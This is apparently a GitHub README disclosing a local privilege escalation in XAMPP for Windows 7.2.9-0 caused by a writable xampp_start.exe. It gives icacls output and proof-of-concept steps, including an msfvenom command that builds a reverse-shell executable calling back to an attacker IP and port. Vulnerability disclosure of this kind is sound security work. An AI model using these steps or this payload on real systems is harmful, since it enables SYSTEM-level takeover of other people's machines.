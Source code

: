 # XAMPP_LPE
Local Privilege Escalation in XAMPP for Windows via Writable xampp_start.exe

Product:
XAMPP for Windows

Vendor:
Bitnami / Apache Friends

Affected Version:
7.2.9-0 (2018-08-27 release for Windows)

Vulnerability Type:
Local Privilege Escalation (LPE)

Attack Vector:
Local

Privileges Required:
Low

User Interaction Required:
No

Impact:
Escalation to NT AUTHORITY\SYSTEM

**Description:**
In XAMPP for Windows version 7.2.9-0, the xampp_start.exe file located at C:\xampp\xampp_start.exe is installed with insecure permissions. Specifically, the Authenticated Users group has (M) (Modify) permission on the file, which allows any standard local user to overwrite the executable.

Since xampp_start.exe is executed with SYSTEM privileges (e.g., via Windows service, scheduled task, or autorun configuration), an attacker can replace the binary with a malicious executable such as a reverse shell. Upon system reboot, the attacker gains arbitrary code execution as NT AUTHORITY\SYSTEM.

**Permissions Output (icacls) fo C:\xampp\xampp_start.exe :**

```
BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
```


**Proof of Concept (PoC):**

1. Log in as a standard user.
2. Replace C:\xampp\xampp_start.exe with a reverse shell or other SYSTEM payload.
3. Reboot the machine.
4. Observe the payload executing as SYSTEM (whoami → NT AUTHORITY\SYSTEM).


Step 1:

![teste](https://raw.githubusercontent.com/painoob/XAMPP_LPE/refs/heads/main/img/Pasted%20image%2020250724134438.png)

Step 2:

Generate the reverse shell payload:
![](https://raw.githubusercontent.com/painoob/XAMPP_LPE/refs/heads/main/img/Pasted%20image%2020250724134302.png)

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.173.189 LPORT=4444 -f exe -o rev.exe
```

Start a webserver:

![](https://raw.githubusercontent.com/painoob/XAMPP_LPE/refs/heads/main/img/Pasted%20image%2020250724134744.png)

Download the payload to the path:  
![](https://raw.githubusercontent.com/painoob/XAMPP_LPE/refs/heads/main/img/Pasted%20image%2020250724134830.png)

Start the listener:  
![](https://raw.githubusercontent.com/painoob/XAMPP_LPE/refs/heads/main/img/Pasted%20image%2020250724134934.png)

Reboot the machine:  
![](https://raw.githubusercontent.com/painoob/XAMPP_LPE/refs/heads/main/img/Pasted%20image%2020250724135046.png)

Receive the "nt authority\system" shell:  
![](https://raw.githubusercontent.com/painoob/XAMPP_LPE/refs/heads/main/img/Pasted%20image%2020250724135220.png)

